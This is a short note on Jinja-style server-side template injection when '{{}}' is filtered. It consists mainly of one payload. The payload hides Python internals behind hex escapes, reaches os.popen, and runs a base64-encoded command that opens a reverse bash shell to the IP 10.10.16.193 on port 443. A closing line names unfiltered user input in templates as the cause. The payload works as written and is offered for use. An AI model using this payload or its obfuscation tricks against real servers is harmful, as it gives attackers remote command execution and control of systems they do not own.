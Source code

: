 # ssti

except payloads all the thing

when can't use {{}}

{{ zzzzz}} == {% include zzzzz%}

```
{% with a = request["application"]["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA JiAvZGV2L3RjcC8xMC4xMC4xNi4xOTMvNDQzIDA JjE= | base64 -d | bash")["read"]() %} a {% endwith %}

```

html template,replace with user supplied arguments without filter, then render. cause classic ssti
